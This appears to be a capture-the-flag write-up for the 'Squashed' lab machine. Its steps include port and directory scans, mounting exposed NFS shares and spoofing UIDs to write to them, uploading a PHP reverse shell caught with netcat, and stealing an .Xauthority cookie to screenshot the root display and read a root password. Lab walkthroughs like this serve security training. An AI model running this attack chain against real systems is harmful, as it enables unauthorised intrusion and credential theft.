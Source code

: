```yaml
---
cover: ../../.gitbook/assets/Squashed.png
coverY: 245.19466666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Squashed

Tools : `convert` `python3` `xwd` `w` `export` `cat` `echo` `usermod` `groupmod` `useradd` `nc` `curl` `mount` `showmount` Subjects : `rpcinfo` `nfs` `KeePass`

## Port Discovery

```bash
kali@kali| echo '10.10.11.191 squashed.htb' | sudo tee -a /etc/hosts
kali@kali| ports=$(nmap -p- --min-rate=1000 -T4 squashed.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
kali@kali| nmap -p $port -sV -sC squashed.htb
```

| Port  | Protocol     | Version                         |
| ----- | ------------ | ------------------------------- |
| 22    | ssh          | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 |
| 80    | http         | Apache httpd 2.4.41 ((Ubuntu))  |
| 111   | rpcbind      | 2-4 (RPC #100000)               |
| 2049  | nfs\_acl     | 3 (RPC #100227)                 |
| 33629 | mountd       | 1-3 (RPC #100005)               |
| 37459 | mountd       | 1-3 (RPC #100005)               |
| 46677 | nlockmanager | 1-4 (RPC #100021)               |
| 52561 | mountd       | 1-3 (RPC #100005)               |

## Web Directory Discovery

```bash
kali@kali| ffuf -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://squashed.htb/FUZZ -fs 32532
```

Discovered urls :

| Url                               | Code |
| --------------------------------- | ---- |
| http://squashed.htb/css           | 301  |
| http://squashed.htb/js            | 301  |
| http://squashed.htb/images        | 301  |
| http://squashed.htb/server-status | 403  |

## NFS

```bash
kali@kali| showmount -e squashed.htb
```

The shared files : `/home/ross` `/var/www/html`

```bash
kali@kali| mkdir /tmp/mount1
sudo@kali| mount -t nfs squashed.htb:/var/www/html /tmp/mount1 -o nolock

kali@kali| mkdir /tmp/mount2
root@kali| mount -t nfs squashed.htb:/home/ross /tmp/mount2 -o nolock
```

The user with the UID 2017 has `rwx` permissions for `mount1`.

<figure><img src="../../.gitbook/assets/squashed-2017.png" alt=""><figcaption></figcaption></figure>

```bash
root@kali| useradd john
root@kali| usermod -u 2017 john
root@kali| su john
john@kali| cd /tmp/mount1
```

<figure><img src="../../.gitbook/assets/squashed-mount1.png" alt=""><figcaption></figcaption></figure>

This is the web server repository. Upload a reverse shell on the target and don't forget to update the ip of the attacker in the `php-reverse-shell.php`.

```bash
john|kali| cp /usr/share/webshells/php/php-reverse-shell.php /tmp/mount1/shell.php
```

<figure><img src="../../.gitbook/assets/squashed-php.png" alt=""><figcaption></figcaption></figure>

In one terminal, launch netcat.

```bash
kali@kali| nc -lnvp 1234
```

In a second terminal execute `curl`.

```bash
kali@kali| curl http://squashed.htb/shell.php
```

In the first terminal, the reverse shell appears.

```bash
alex@target| python3 -c "import pty;pty.spawn('/bin/bash')"
alex@target| cat /home/alex/user.txt
```

The user with the UID 1001 has `rwx` permissions for `mount2`.

<figure><img src="../../.gitbook/assets/squashed-1001.png" alt=""><figcaption></figcaption></figure>

```bash
root@kali| useradd jane
root@kali| usermod -u 1001 jane
```

<figure><img src="../../.gitbook/assets/squashed-authority.png" alt=""><figcaption></figcaption></figure>

```bash
jane@kali  | cat /mnt/2/.Xauthority | base64  # output is AQAADHN<...SNIP...>S0xAoNm/oZZ4/
alex@target| echo AQAADHN<...SNIP...>S0xAoNm/oZZ4/ | base64 -d > /tmp/.Xauthority
alex@target| export XAUTHORITY=/tmp/.Xauthority
alex@target| w
```

<figure><img src="../../.gitbook/assets/squashed-session.png" alt=""><figcaption></figcaption></figure>

```bash
alex@target| xwd -root -screen -silent -display :0 > /tmp/screen.xwd
alex@target| python3 -m http.server
kali@kali  | wget http://squashed.htb:8000/screen.xwd
kali@kali  | convert screen.xwd screen.png
```

<figure><img src="../../.gitbook/assets/squashed-screen.png" alt=""><figcaption></figcaption></figure>

The credentials are `root:cah$mei7rai9A`.

```bash
alex@target| su root             # prompt password, enter "cah$mei7rai9A"
root@target| cat /root/root.txt
```
